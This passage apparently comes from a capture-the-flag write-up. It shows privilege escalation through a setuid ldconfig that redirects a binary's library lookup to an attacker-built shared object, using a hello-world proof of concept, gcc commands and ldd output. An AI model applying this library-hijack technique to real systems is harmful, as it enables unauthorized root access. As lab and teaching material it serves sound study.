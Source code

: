 #### Background

One way to tell a binary to use a different library than the one it expects is to use the `LD_PRELOAD` variable, and, at run time, tell the os to link functions from the path in that variable first. However, one of the really smart protections that Linux put in place is that when `LD_PRELOAD` is used, any setuid privileges are dropped.

This is where the fact that `ldconfig` is setuid allowing me to run it as root comes in handy. I can use this to configure where the binary looks for libraries, and give it one of my own instead of the one it currently looks for.

#### Hello World POC

I’ll make a quick hello world program that implements the `seclogin` function:

```

genevieve@dab:/dev/shm$ cat .a.c
#include <stdio.h>

void seclogin() {
    printf("hello, world!");
}

```

Next I’ll compile it to a library using the `-shared` and `-fPIC` flags:

```

genevieve@dab:/dev/shm$ gcc -shared -fPIC /dev/shm/.a.c -o /dev/shm/libseclogin.so

```

The `-shared` flag tells gcc to make a shared object which can later be linked to other objects, and `-fPIC` says to emit position independent code, which is what a library typically needs. I’ve output my library in `/dev/shm` (just a place to stage, could be anywhere).

Next, I’ll create a config file for `ldconfig` that simply includes the path I want to check:

```

genevieve@dab:/dev/shm$ cat df.conf 
/dev/shm

```

Now I’ll change the configuration with `ldconfig`. First, I’ll show the libraries before I change anything:

```

genevieve@dab:/dev/shm$ ldd /usr/bin/myexec 
        linux-vdso.so.1 =>  (0x00007fff061d0000)
        libseclogin.so => /usr/lib/libseclogin.so (0x00007fd56002e000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd55fc64000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fd560230000)

```
